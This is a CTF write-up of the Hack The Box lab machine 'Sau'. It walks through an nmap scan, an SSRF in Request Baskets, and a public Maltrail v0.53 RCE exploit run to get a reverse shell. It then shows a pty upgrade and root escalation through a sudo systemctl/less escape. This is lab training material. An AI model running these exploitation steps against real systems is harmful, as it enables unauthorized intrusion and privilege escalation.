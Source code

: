 ```yaml
---
layout: post
title:  "[HTB] Sau"
date:   2024-01-12
categories: CTF
---
```


# Recon

Let us start with our nmap scan

---

Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-12 00:26 EST
Nmap scan report for 10.10.11.224
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds

---

We can see that we have port 22, 80 and 55555, but port 80 is filtered so we cannot visit this even if we try, so we first try visiting port 55555.

![Alt text](/assets/uploads/htb-sau/2024-01-12 13_29_55.png)

We see that this is Request Baskets and upon searching about this, we find that there is an SSRF issue here that we can leverage.
We can forward port 80 to this request basket. 

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_05_51.png)

Now we can visit visit http://sau.htb:55555/mhvi3fu and see that port 80 is running Maltrail v0.53. With some searching, we can see that there is an RCE vulnerability on this https://github.com/spookier/Maltrail-v0.53-Exploit


# Exploitation
Let us clone this repository, setup a listener on port 111 and run the exploit to get a reverse shell

---

python3 exploit.py 10.10.14.36 1111 http://sau.htb:55555/mhvi3fu

---

We can now obtain the user flag at /home/puma/user.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_11_48.png)

At this point, let us also upgrade our shell to a pty shell by running

---

python3 -c 'import pty; pty.spawn("/bin/bash")'

---

# Privilege Escalation

Running sudo -l reveals that we can run sudo on /usr/bin/systemctl status trail.service

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_17_23.png)

So let us do that and we can see that the systemctl is running the less command to show us all the information, so what we can do is to run !sh to exit the terminal and we retain sudo privileges

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_19_25.png)

Now we can just obtain the root flag at /root/root.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_20_27.png)



